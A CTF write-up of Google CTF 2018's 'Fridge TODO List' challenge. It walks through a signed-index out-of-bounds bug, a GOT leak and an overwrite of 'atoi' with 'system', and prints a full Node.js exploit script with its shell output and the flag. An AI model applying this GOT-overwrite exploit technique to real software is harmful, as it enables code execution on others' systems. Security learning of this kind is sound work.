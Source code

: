 # Hacking Smart Fridge at Google CTF 2018

It's unfortunate, but these SUID binary exploits are a bit too difficult. I
managed to solve none of them. I will go study more about SUID binaries and
hopefully I can get cakes next year.

But hey, I did manage to hack into the smart fridge.

## Fridge TODO List

The source code of the vulnerable program is included in the attachment.
Reading over it, it's not hard to see what's broken, but how to exploit it
is another question:

```C
// [...]

void store_todo() {
  printf("In which slot would you like to store the new entry? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("What's your TODO? ");
  fflush(stdout);
  read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
}

void print_todo() {
  printf("Which entry would you like to read? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("Your TODO: %s\n", &todos[idx*TODO_LENGTH]);
}

// [...]
```

If I enter a negative number, I can read and write data out of bound. However,
`TODO_LENGTH` is `0x30`, so my access is somewhat restricted. With some math
and a disassembler, I found places that I can access:

```
-6  The "write" function in the Global Offset Table
-5  The "strncat" function in the Global Offset Table
-4  The "open" function in the Global Offset Table
-3  Some random place
-2  Start of "username" buffer
-1  Somewhere in the middle of "username" buffer
```

The `system` function in between `write` and `strncat` would allow me to
execute any shell command, so my goal should be to overwrite the Global Offset
Table (GOT) and make some other function point to `system`. Since `atoi` is
used to parse my menu choice input, it would be easy to exploit if I can make
`atoi` point to `system`. But there is another problem, modern operating
systems have Address Space Layout Randomization (ASLR), and a static payload
would not work.

I spent some time creating a
[Node.js library](https://github.com/jspenguin2017/Blog/tree/master/tools/lib)
that allow my scripts to react to different server response over `netcat`.
Since I can't directly read the address of `system`, I have to calculate it
based on something else. `strncat` is already called before I can leak the
GOT, but `write` is only called when the program is exiting, so its GOT entry
should be still pointing to the Procedure Linkage Table (PLT). With Hopper
Disassembler, I determined that the `system` entry in PLT is `0x30` below
`write`. Hopefully it'll work:

```JavaScript
"use strict";

const assert = require("assert");
const nc = require("./lib/netcat");
const hex = require("./lib/hexutil");

const conn = new nc("fridge-todo-list.ctfcompetition.com", 1337);

(async () => {
    // Log in as (fake) root
    await conn.read_until("user:");
    conn.write_line("root");

    await conn.read_until(">");
    conn.write_line("2");

    // Leak address of "write" in the GOT
    await conn.read_until("read?");
    conn.write_line("-6");

    await conn.read_until("TODO: ");
    let data = await conn.read_until("Hi root");

    const i = data.indexOf("\n\n");
    assert(i !== -1);
    data = data.slice(0, i);
    hex.add(data, 0x30);

    // Overwrite "atoi" with "system", corrupting "open" on the way, I don't
    // need "open" anymore, so it's OK
    await conn.read_until(">");
    conn.write_line("3");

    await conn.read_until("entry?");
    conn.write_line("-4");

    await conn.read_until("TODO?");
    conn.write("A".repeat(8)); conn.write(data); conn.write("\n");

    // List directory
    await conn.read_until(">");
    conn.write_line("ls -al ./todos");
})();
```

Let's try it:

```
$ node exploit
[...]
> ls -al ./todos
total 12
drwxrwxrwt 2 user user   80 Jul  8 03:47 .
drwxr-xr-x 3 user user 4096 Jun 29 14:38 ..
-rw-r--r-- 1 user user 6144 Jul  8 03:47 CountZero
-rw------- 1 user user    0 Jul  8 03:47 root
[...]
```

Looks like Wintermuted is using `CountZero` as his username:

```
$ nc fridge-todo-list.ctfcompetition.com 1337
[...]
user: CountZero
+=====+=================================================================+
|   0 | Watch Hackers (again)                                           |
|   1 | Figure out why the fridge keeps beeping                         |
|   2 | check /home/user/holey_beep                                     |
|   3 | debug the fridge - toilet connectivity                          |
|   4 | follow sec advice: CTF{goo.gl/cjHknW}                           |
+=====+=================================================================+
[...]
```

And there is the flag. Check `/home/user/holey_beep`? What does that mean?

As for the URL in the flag, it links to a (troll) tweet saying signed integers
are more secure than unsigned ones.

## Holey... Beep?

Holey Beep, or [CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492),
is a privilege escalation vulnerability in the `beep` utility. Although I
managed to understand how Holey Beep works, I didn't manage to complete this
quest...

I will be back. I will.

